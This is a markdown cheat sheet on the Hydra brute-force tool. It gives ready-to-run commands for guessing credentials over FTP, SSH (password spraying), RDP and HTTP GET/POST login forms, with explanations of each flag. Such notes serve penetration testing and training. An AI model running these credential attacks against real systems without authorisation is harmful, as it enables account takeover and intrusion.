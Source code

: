 ```yaml
---
title: Hydra
description:  Hydra is a powerful tool used for performing brute-force attacks on various protocols and services to test the security of authentication mechanisms
---
```


## Example
`$ hydra -t 4 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV TARGET_IP ftp`


| SECTION         |   FUNCTION | 
| --- | ---|
| -t 4            | Number of parallel connections per target| 
| -l [USERNAME]   |  Points to the user who's account you're trying to compromise| 
| -P [path to dictionary]  | Points to the file containing the list of possible passwords| 
| -vV             |  Sets verbose mode to very verbose, shows the login+pass combination for each attempt| 
| [TARGET_IP]     |  The IP address of the target machine| 
| ftp / protocol  |   Sets the protocol (Over 50 different protocols)| 

## Password Spraying
You can use Hydra to bruteforce usernames as well as passwords

`$ hydra -L usernames-list.txt -p Passw0rd123 ssh://10.1.1.10`

## Bruteforce RDP
You can attack a Windows Remote Desktop with a password list!

`$ hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`




## Bruteforce HTTP login pages

Form syntax: `<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

#### GET Example
`$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`

| SECTION         |   FUNCTION | 
| --- | ---|
| -l admin            | Specify a single username, use `-L` for a username wordlist| 
| -P  |   Specify the full path of wordlist, use `-p` for a single password| 
| 10.10.x.x [path to dictionary]  | The IP address or the fully qualified domain name (FQDN) of the target| 
| http-get-form            | The type of HTTP request, which can be either `http-get-form` or `http-post-form`| 
| PARAMETERS  |  Specify the URL, path, and conditions.  login-get/index.php is the path of the login page on the target webserver.  username=^USER^&password=^PASS^ are the parameters to brute-force. 


#### POST Example
`$ hydra -l <username> -P <wordlist> 10.10.12.119 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- The login page is only /, i.e., the main IP address.
- The username is the form field where the username is entered
- The specified username(s) will replace ^USER^
- The password is the form field where the password is entered
- The provided passwords will be replacing ^PASS^

`F=incorrect` is a string that appears in the server reply when the login fails


## Resources

- [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)